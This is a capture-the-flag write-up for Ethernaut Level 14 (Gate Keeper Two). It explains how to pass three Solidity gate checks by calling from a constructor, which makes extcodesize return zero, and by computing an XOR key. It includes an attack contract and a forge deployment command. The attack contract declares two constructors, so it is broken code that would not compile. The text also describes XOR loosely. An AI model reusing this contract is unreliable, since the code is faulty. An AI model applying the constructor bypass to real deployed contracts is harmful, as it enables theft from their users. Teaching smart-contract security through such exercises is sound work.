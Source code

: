 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/14-gate2.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 14 - Gate Keeper Two</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [modifier one](#modifier-one)
  - [modifier two](#modifier-two)
  - [modifier three](#modifier-three)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Objectif

<img src="../assets/requirements/14-gate2-requirements.webp" width="800px"/>

## The hack

Another gatekeeper here with three modifiers to pass. So let's see how to pass them.

### modifier one

```javascript
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

Lucky us, this is the same modifier as the previous level, so we can use a contract to call the function. Or can we?

### modifier two

```javascript
modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
}
```

The `extcodesize` opcode returns the size of the code at the given address, `caller()` here. If the address is a contract, it will return the size of the contract's code. If the address is an EOA (Externally Owned Account), it will return 0.

So, it seems that we can't use an intermediary contract after all. However, there is no way to pass the first gate otherwise. Is there another solution then?

Well yes, there is. If we execute our call from a `constructor`, the `extcodesize` will return 0 since the contract hasn't been deployed yet technically. So this is how we can pass the second gate.

### modifier three

```javascript
modifier gateThree(bytes8 _gateKey) {
     require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

This one looks pretty ugly at first glance, but let's take a better look at the XOR operator first. The XOR operator returns true if the two operands are different. So, if `A ^ B == C`, then `A ^ C == B` and `B ^ C == A`. So we could rewrite the modifier like this (which is much nicer, let's be honest):

```javascript
modifier gateThree(bytes8 B) {
    require(uint64(A) ^ uint64(B) == uint64(C));
    _;
}
```

In other words, no need to think too much here, the `_gateKey` will be simply equal to:

```java
bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
```

## Solution

We can now write our contract to pass the three gates:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract GateSkipperTwo {
    address private gateKeeperTwo;

    constructor(address _gateKeeperTwo) {
        gateKeeperTwo = _gateKeeperTwo;
    }

    constructor() {
        attack();
    }

    function attack() private {
        bytes8 _gateKey = bytes8(
            uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^
                type(uint64).max
        );

        (bool success, ) = gateKeeperTwo.call(
            abi.encodeWithSignature("enter(bytes8)", _gateKey)
        );
        require(success, "Attack failed");
    }
}
```

Then, run the script with the following command:

```bash
forge script script/14_GateKeeperTwo.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- The `extcodesize` opcode returns the size of the code at the given address.
- The contract's size is 0 in the constructor.
- The XOR operator `^` returns true if the two operands are different.

## Reference

- [Distinguishing EOA from Smart Contracts Securely](https://blog.solidityscan.com/distinguishing-eoa-and-smart-contracts-securely-911dc42fdf13)

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
